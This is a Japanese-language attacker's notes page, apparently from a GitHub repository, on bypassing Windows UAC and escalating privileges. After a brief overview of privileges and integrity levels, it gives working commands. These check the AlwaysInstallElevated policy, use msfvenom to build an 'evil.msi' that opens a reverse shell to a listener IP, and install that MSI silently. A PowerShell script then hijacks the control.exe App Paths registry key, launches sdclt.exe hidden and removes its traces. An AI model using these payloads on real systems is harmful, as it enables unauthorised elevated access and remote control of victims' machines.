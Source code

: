 # UACBypass

## 権限を制御するOSの仕組み

* Windows UAC 端末の設定変更しようとした時に管理者権限が必要になるやつ
* Windowsでは、どのようにプロセスやオブジェクトの操作権限をコントロールしているのだろう？
  * Windows OSでは操作するシステムを制御するものとして、特権と整合性レベルがある。
  * 特権　ユーザ単位のアクセス制御　アクセストークンを使用して権限を有効化
  * 整合性レベル　オブジェクトのアクセス制御　アクセストークン内に格納されている
* CUIで攻撃をしている際にUACの回避が必要

### UACバイパス

Windows95～XPの場合：（UACが存在しないためUAC回避は不要）

Windows Vista、7の場合：「イベントビューワ」(eventvwr.exe)を利用したUAC回避手法

Windows 8～10の場合：「バックアップと復元」(sdclt.exe)を利用したUAC回避手法

* ビルトインAdministratorの奪取
* Windowsポリシーの悪用
* AlwaysInstallElevated ポリシーが有効 msiを実行すると特権でインストール

#### 手順(msiペイロード)

* AlwaysInstallElevatedの確認

``` bat
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

    # AlwaysInstallElevated　REG_DWORD　0x1 であれば権限昇格に使える  
```

* payloadの作成

``` shell
    # リバースシェルを張るmsiファイルを作成。
    # msfvenomを使用
    # -fでファイル形式
    # -p でペイロード
    msfvenom -f msi -p windows/x64/shell_reverse_tcp LHOST=192.168.11.144 LPORT=1030 > evil.msi
```

* 作成したmsiファイルを配信する

``` bat
    # /quiet:進行状況バーのみを表示
    # /qn:何も表示しない
    # /i:インストーラーの指定
    msiexec /quiet /qn /i evil.msi
```

#### 手順(win10 sdclt.exe)

* UACMeで有効なexeファイルを検索

``` ps
    # default
    [String]$program = "C:\Windows\System32\cmd.exe"
    # Create Registory Structure
    New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
    Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value $program -Force
    Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe"
    #Start sdclt.exe
    Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden
    #Cleanup
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App 
    Paths\control.exe" -Recurse -Force
```

